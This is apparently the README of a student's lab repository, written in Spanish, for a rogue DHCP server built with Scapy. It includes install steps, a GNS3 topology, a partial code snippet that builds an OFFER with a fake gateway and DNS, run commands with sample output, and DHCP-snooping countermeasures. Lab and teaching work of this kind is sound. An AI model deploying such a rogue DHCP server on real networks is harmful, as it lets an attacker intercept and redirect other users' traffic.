

<div align="center">

# 🎭 DHCP Spoofing Attack

**Luiggy Habraham Encarnación Cabrera · Matrícula 2025-0663**


> Servidor DHCP rogue que completa el handshake DHCP completo con los clientes de la red, entregándoles un gateway y DNS falsos controlados por el atacante.

</div>

---

## ⚠️ Aviso Legal

> [!CAUTION]
> Este repositorio tiene fines **exclusivamente académicos y educativos**.
> Todo el contenido fue ejecutado en un entorno de laboratorio virtualizado y controlado.
> La reproducción de estas técnicas en redes sin autorización expresa es **ilegal**.

---

## 📑 Tabla de Contenido

1. [Objetivo del Laboratorio](#-objetivo-del-laboratorio)
2. [Objetivo del Script](#-objetivo-del-script)
3. [Requisitos](#requisitos-para-utilizar-la-herramienta)
4. [Instalación](#️-instalación)
5. [Documentación de la Red](#️-documentación-de-la-red)
6. [Funcionamiento del Script](#-funcionamiento-del-script)
7. [Uso y Ejecución](#-uso-y-ejecución)
8. [Contramedidas](#-contramedidas)
9. [Capturas de Pantalla](#-capturas-de-pantalla)
10. [Video de Demostración](#-video-de-demostración)

---

## 🎯 Objetivo del Laboratorio

Demostrar cómo un atacante puede levantar un servidor DHCP falso (*rogue*) en la red que, al responder antes que el servidor DHCP legítimo, entrega parámetros de red maliciosos a los clientes: gateway falso (apuntando al atacante) y DNS falso. Esto permite interceptar y redirigir el tráfico de las víctimas sin que estas lo perciban.

---

## 🧩 Objetivo del Script

El script `dhcp_spoofing.py` implementa un servidor DHCP rogue completo que escucha solicitudes DHCP en la red y responde a ellas con parámetros controlados por el atacante. El script completa el handshake DHCP estándar (DISCOVER → OFFER → REQUEST → ACK) de forma funcional, logrando que el cliente adopte la configuración maliciosa.

### Parámetros Usados

| Parámetro | Tipo | Descripción | Ejemplo |
|---|---|---|---|
| Interfaz de red | Interactivo | Interfaz de escucha y envío | `e0` |
| IP del gateway falso | Interactivo | Gateway que recibirá el cliente (IP del atacante) | `10.6.63.13` |
| IP del DNS falso | Interactivo | Servidor DNS anunciado a los clientes | `10.6.63.13` |
| Máscara de subred | Interactivo | Máscara entregada en la configuración | `255.255.255.0` |
| Tiempo de lease | Interactivo | Duración del arrendamiento en segundos | `3600` |
| IP inicial del pool | Interactivo | Primera IP a asignar a los clientes | `10.6.63.100` |

### Requisitos para Utilizar la Herramienta

| Requisito | Detalle |
|---|---|
| Sistema operativo | Kali Linux 2023+ (o cualquier Linux) |
| Python | 3.10 o superior |
| Librería Scapy | `scapy >= 2.5.0` |
| Privilegios | `sudo` o `root` obligatorio |
| Posición de red | Mismo segmento de Capa 2 que los clientes |
| DHCP legítimo | Deshabilitado en el lab o el script debe responder más rápido |

---

## ⚙️ Instalación

```bash
# 1. Clonar el repositorio
git clone https://github.com/luiggyencarnacion/DHCP-Spoofing-Attack.git
cd DHCP-Spoofing-Attack

# 2. Crear entorno virtual
python3 -m venv venv
source venv/bin/activate

# 3. Instalar dependencias
pip install -r requirements.txt

# 4. Verificar
python3 -c "from scapy.all import DHCP, BOOTP; print('Scapy OK')"
```

**`requirements.txt`**
```
scapy>=2.5.0
```

---

## 🗺️ Documentación de la Red

### Topología

```
                    ┌─────────┐
                    │   R-1   │  10.6.63.1/24
                    └────┬────┘    (DHCP legítimo - deshabilitado en lab)
                         │ Gig0/0
                         │ Gig0/0
                    ┌────┴────┐
                    │  SW-1   │
                    └──┬───┬──┘
               Gig0/2  │   │  Gig0/1
              ┌────────┘   └───────────┐
         ┌────┴────────┐          ┌────┴────┐
         │ KaliLinux-1 │          │   PC1   │
         │ DHCP Rogue  │          │ Víctima │
         │ 10.6.63.13  │          │ → DHCP  │
         └─────────────┘          └─────────┘
               e0                      e0

  PC1 solicita IP → KaliLinux-1 responde con:
    Gateway: 10.6.63.13 (atacante)
    DNS:     10.6.63.13 (atacante)
    IP:      10.6.63.100+
```



### Tabla de Direccionamiento

| Dispositivo | Interfaz | Dirección IP | Máscara | Rol |
|---|---|---|---|---|
| R-1 | g0/0 | 10.6.63.1 | /24 | Gateway legítimo |
| SW-1 | Gig0/0 | — | — | Switch de acceso |
| SW-1 | Gig0/1 | — | — | Enlace hacia PC1 |
| SW-1 | Gig0/2 | — | — | Enlace hacia KaliLinux-1 |
| KaliLinux-1 | e0 | 10.6.63.13 | /24 | Servidor DHCP falso |
| PC1 | e0 | 10.6.63.100+ (vía DHCP falso) | /24 | Víctima |

### Detalles del Entorno

| Parámetro | Valor |
|---|---|
| Red | 10.6.63.0/24 |
| Pool DHCP falso | 10.6.63.100 en adelante |
| Simulador | GNS3 |
| Plataforma atacante | Kali Linux |
| VLANs | VLAN 1 (default) |

---

## 🔬 Funcionamiento del Script

### Flujo del Handshake DHCP Malicioso

```
Cliente (PC1)               Atacante (KaliLinux-1)
      │                             │
      │──── DHCP DISCOVER ─────────►│  sniff detecta msg_type=1
      │                             │  Asigna IP del pool al MAC del cliente
      │◄─── DHCP OFFER ─────────────│  gateway=10.6.63.13, dns=10.6.63.13
      │                             │
      │──── DHCP REQUEST ──────────►│  sniff detecta msg_type=3
      │◄─── DHCP ACK ───────────────│  Confirma parámetros maliciosos ✓
      │                             │
      │ Configura:                  │
      │  GW  = 10.6.63.13 (atacante)│
      │  DNS = 10.6.63.13 (atacante)│
```

### Construcción del OFFER

```python
Ether(src=get_if_hwaddr(IFACE), dst=client_mac)
/ IP(src=FAKE_GW, dst="255.255.255.255")
/ UDP(sport=67, dport=68)
/ BOOTP(op=2, yiaddr=offered_ip, siaddr=FAKE_GW, ...)
/ DHCP(options=[
    ("message-type", "offer"),
    ("server_id",    FAKE_GW),
    ("lease_time",   LEASE_TIME),
    ("subnet_mask",  SUBNET_MASK),
    ("router",       FAKE_GW),      # ← gateway falso
    ("name_server",  FAKE_DNS),     # ← DNS falso
    "end"
])
```

### Salida en Tiempo Real

```
  Tiempo   Mensaje      MAC                     IP Asignada
  ──────────────────────────────────────────────────────────────
  00:03    DISCOVER     00:50:79:66:68:01       10.6.63.100
           OFFER        0c:e4:2a:xx:xx:xx       10.6.63.100
  00:04    REQUEST      00:50:79:66:68:01       10.6.63.100
           ACK          0c:e4:2a:xx:xx:xx       10.6.63.100  ✓
  ──────────────────────────────────────────────────────────────
```

---

## 🚀 Uso y Ejecución

```bash
sudo python3 ddhcp_spoofing_attack.py
```

**Interacción esperada:**

```
  Ingrese la IP del gateway/servidor falso : 10.6.63.13
  Ingrese la IP del DNS falso              : 10.6.63.13
  Ingrese la máscara de subred             : 255.255.255.0
  Ingrese el tiempo de lease (segundos)    : 3600
  Ingrese la IP inicial del pool           : 10.6.63.100

  ╔════════════════════════════════════════╗
  ║         DHCP Spoofing Attack           ║
  ╚════════════════════════════════════════╝
  Interfaz    : e0
  Gateway     : 10.6.63.13
  DNS Falso   : 10.6.63.13
  [*] Servidor DHCP falso activo...
```

**Verificación del impacto en la víctima:**

```
# En PC1 (VPCS):
PC1> ip dhcp
PC1> show ip

NAME        : PC1
IP/MASK     : 10.6.63.100/24
GATEWAY     : 10.6.63.13     ← Gateway FALSO (IP del atacante)
DNS         : 10.6.63.13     ← DNS FALSO
```

---

## 🔐 Contramedidas

### DHCP Snooping — Trusted / Untrusted Ports

```
! Habilitar DHCP Snooping globalmente
SW-1(config)# ip dhcp snooping
SW-1(config)# ip dhcp snooping vlan 1

! Solo el puerto hacia el router puede enviar OFFER y ACK
SW-1(config)# interface GigabitEthernet0/0
SW-1(config-if)# ip dhcp snooping trust
SW-1(config-if)# exit

! El puerto de Kali queda untrusted (default): sus OFFERs son descartados
! Evitar inserción de Option 82
SW-1(config)# no ip dhcp snooping information option
```

### Verificación

```
SW-1# show ip dhcp snooping
SW-1# show ip dhcp snooping binding
SW-1# show ip dhcp snooping statistics
```

### Tabla Resumen

| Contramedida | Efectividad | Impacto operacional |
|---|---|---|
| DHCP Snooping (trusted ports) | Muy alta | Bajo |
| Port-security | Media | Bajo |
| Detección con herramientas (dhcpig) | Media (detección) | Bajo |

---

## 📸 Capturas de Pantalla

```
evidencias/
├── 01_topologia_gns3.png
├── 02_servidor_rogue_activo.png
├── 03_handshake_completo_consola.png
├── 04_ip_incorrecta_en_victima.png
├── 05_dhcp_snooping_aplicado.png
└── 06_verificacion_snooping.png
```

---

## 🎬 Video de Demostración

> 📺 **[Ver demostración en YouTube →](https://youtu.be/JUfHl5T-SHE?si=HnVdcsq0poEcUYnF)**

---

<div align="center">

*Documento elaborado con fines académicos en un entorno de laboratorio controlado.*
*El uso de estas técnicas fuera de entornos autorizados es ilegal.*

</div>
